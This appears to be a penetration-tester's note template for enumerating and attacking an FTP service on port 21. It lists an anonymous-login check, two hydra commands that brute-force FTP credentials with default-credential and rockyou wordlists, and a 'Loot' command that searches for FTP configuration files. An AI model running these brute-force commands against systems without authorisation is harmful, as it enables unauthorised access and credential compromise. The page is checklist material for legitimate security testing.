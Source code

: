 #service # login
<% tp.file.rename("1_FTP_21")%>
☑️
> With IIS: `C:\inetpub\wwwroot`


Anonymous Login? (anonymous or anon)

Use `ls -al` to see hidden files via ftp

## Bruteforce default credentials
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$hip -vV -t 1 -I -s 21
```
Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou30.txt ftp://$hip -V -t 4 -I -s 21
```

# Findings


# Loot
```bash
find / -name "ftpusers" -o -name "ftp.conf" -o -name "proftpd.conf"
```